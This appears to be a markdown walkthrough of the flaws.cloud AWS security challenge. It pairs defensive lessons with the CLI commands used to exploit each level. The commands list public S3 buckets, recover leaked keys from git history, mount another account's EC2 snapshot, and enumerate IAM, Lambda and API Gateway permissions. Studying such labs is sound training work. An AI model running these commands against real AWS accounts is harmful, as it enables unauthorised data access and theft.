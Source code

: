 # flaws.cloud

## Public bucket listings
- By default, S3 buckets are private and secure when they are created. 
- To allow it to be accessed as a web page, I had turn on "Static Website Hosting" and changed the bucket policy to allow everyone `s3:GetObject` privileges, which is fine if you plan to publicly host the bucket as a web page. 
- But then to introduce the flaw, I changed the permissions to add "Everyone" to have "List" permissions.
- `dig +nocmd flaws.cloud any +multiline +noall +answer`
- `nslookup 54.231.184.255`
- `aws s3 ls  s3://flaws.cloud/ --no-sign-request --region us-west-2`

## S3 Permissions open to any authenticated AWS user
- Only open permissions to specific AWS users.
- `aws s3 --profile YOUR_ACCOUNT ls s3://level2-c8b217a33fcf1f839f6f1f73a00a9ae7.flaws.cloud`

## Must revoke leaked AWS keys
- Ref. Instagram's Million Dollar Bug
- Can't restrict the ability to list only certain buckets on AWS.
- Roll your secrets as often as possible.
- `aws s3 sync s3://level3-9afd3927f195e10225021a578e6f78df.flaws.cloud/ . --no-sign-request --region us-west-2`
- `git log`
- `git checkout f52ec03b227ea6094b04e43f475fb0126edb5a61`
- `aws configure --profile flaws`
- `aws --profile flaws s3 ls`

## Protect your backups
- AWS allows you to make snapshots of EC2's and databases (RDS).
- The main purpose for that is to make backups, but people sometimes use snapshots to get access back to their own EC2's when they forget the passwords. This also allows attackers to get access to things.
- Snapshots are normally restricted to your own account, so a possible attack would be an attacker getting access to an AWS key that allows them to start/stop and do other things with EC2's and then uses that to snapshot an EC2 and spin up an EC2 with that volume in your environment to get access to it.
- `aws --profile flaws sts get-caller-identity`
- `aws --profile flaws  ec2 describe-snapshots --owner-id 975426262029 --region us-west-2`
- `aws --profile YOUR_ACCOUNT ec2 create-volume --availability-zone us-west-2a --region us-west-2  --snapshot-id  snap-0b49342abd1bdcb89`
- `ssh -i YOUR_KEY.pem  ubuntu@ec2-54-191-240-80.us-west-2.compute.amazonaws.com`
- `lsblk`
- `sudo file -s /dev/xvdb1`
- `sudo mount /dev/xvdb1 /mnt`
- `find /mnt -type f -mtime -1 2>/dev/null | grep -v "/var/" | grep -v "/proc/" | grep -v "/dev/" | grep -v "/sys/" | grep -v "/run/" | less`

## Magic IP
- `169.254.169.254` is a IP that AWS uses to allow cloud resources to find out metadata about themselves.
- Ensure your applications do not allow access to 169.254.169.254 or any local and private IP ranges. 
- Additionally, ensure that IAM roles are restricted as much as possible.

## Misconfigured permissions
- It is common to give people and entities read-only permissions such as the SecurityAudit policy.
- The ability to read your own and other's IAM policies can really help an attacker figure out what exists in your environment and look for weaknesses and mistakes.
- Don't hand out any permissions liberally, even permissions that only let you read meta-data or know what your permissions are.
- `aws --profile level6 iam get-user`
- `aws --profile level6 iam list-attached-user-policies --user-name Level6`
- `aws --profile level6 iam get-policy  --policy-arn arn:aws:iam::975426262029:policy/list_apigateways`
- ` aws --profile level6 iam get-policy-version  --policy-arn arn:aws:iam::975426262029:policy/list_apigateways --version-id v4`
- `aws --region us-west-2 --profile level6 lambda list-functions`
- `aws --region us-west-2 --profile level6 lambda get-policy --function-name Level6`
- `aws --profile level6 --region us-west-2 apigateway get-stages --rest-api-id "s33ppypa75"`
